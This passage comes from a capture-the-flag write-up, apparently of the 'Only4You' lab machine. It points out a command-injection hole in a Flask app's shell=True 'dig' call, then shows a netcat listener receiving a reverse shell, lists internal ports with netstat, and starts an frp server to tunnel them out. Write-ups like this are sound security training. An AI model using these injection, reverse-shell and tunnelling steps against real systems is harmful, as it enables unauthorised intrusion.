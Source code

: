 ```python
                msg = EmailMessage()
                msg['From'] = f'{email}'
                msg['To'] = 'info@only4you.htb'
                msg['Subject'] = f'{subject}'
                msg['Message'] = f'{message}'

                smtp = smtplib.SMTP(host='localhost', port=25)
                smtp.send_message(msg)
                smtp.quit()
                return status
        elif status == 1:
                return status
        else:
                return status
```

Notice the function `issecure` is vulnerable to RCE, because of this line `result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)`. You will see that app.py calls the function `sendmessage` from form.py script, and `sendmessage()` calls `issecure(email, ip)`, so `email` field is vulnerable to injection.

So I tried to curl my localhost and it succeded. Now getting a rev shell:
```bash
z➤ nc -lvnp 55555
Connection from 10.10.11.210:48762
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@only4you:~/only4you.htb$ pwd
pwd
/var/www/only4you.htb
```

#### Exposing internal services
```bash
www-data@only4you:~/only4you.htb$ netstat -tulpn | grep 127.0.0.1
netstat -tulpn | grep 127.0.0.1
tcp        0      0 127.0.0.1:8001          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp6       0      0 127.0.0.1:7687          :::*                    LISTEN      -
tcp6       0      0 127.0.0.1:7474          :::*                    LISTEN      -
```

We see some interal ports LISTENing, let's expose them and see what they have are running. For this matter I used this popular tool https://github.com/fatedier/frp

It helps to rapidly expose local servers to ouside in different ways. It uses two programs one for the internal server and one for the client.

I will just start the client app on my workstation: 
```bash
z➤ ./frps -p 7000 --bind_addr "0.0.0.0"
2023/08/16 22:03:14 [I] [root.go:206] frps uses command line arguments for config
2023/08/16 22:03:14 [I] [service.go:206] frps tcp listen on 0.0.0.0:7000
2023/08/16 22:03:14 [I] [root.go:213] frps started successfully
```

